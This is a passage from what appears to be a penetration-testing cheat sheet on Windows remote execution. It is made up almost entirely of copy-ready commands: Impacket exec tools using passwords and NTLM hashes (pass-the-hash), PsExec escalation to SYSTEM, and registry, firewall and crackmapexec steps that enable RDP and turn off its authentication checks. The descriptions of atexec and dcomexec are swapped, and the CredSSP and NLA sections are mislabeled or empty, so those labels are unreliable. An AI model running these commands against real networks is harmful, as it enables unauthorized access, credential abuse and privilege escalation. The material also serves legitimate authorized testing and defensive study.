 From [Impacket](https://github.com/SecureAuthCorp/impacket) (:warning: renamed to impacket-xxx in Kali)
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.    
:warning: French characters might not be correctly displayed on your output, use `-codec ibm850` to fix this.

```powershell
root@payload$ git clone https://github.com/CoreSecurity/impacket.git

# PSEXEC like functionality example using RemComSv
root@payload$ python psexec.py DOMAIN/username:password@10.10.10.10
# this will drop a binary on the disk = noisy

# A similar approach to PSEXEC w/o using RemComSvc
root@payload$ python smbexec.py DOMAIN/username:password@10.10.10.10

# A semi-interactive shell, used through Windows Management Instrumentation. 
root@payload$ python wmiexec.py DOMAIN/username:password@10.10.10.10
root@payload$ wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

# A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. 
root@payload$ python atexec.py DOMAIN/username:password@10.10.10.10

# Executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
root@payload$ python dcomexec.py DOMAIN/username:password@10.10.10.10
```

## PsExec - Sysinternal

from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe

# switch admin user to NT Authority/System
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s 
```

## RDP Remote Desktop Protocol 

:warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.

```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Disable NLA
```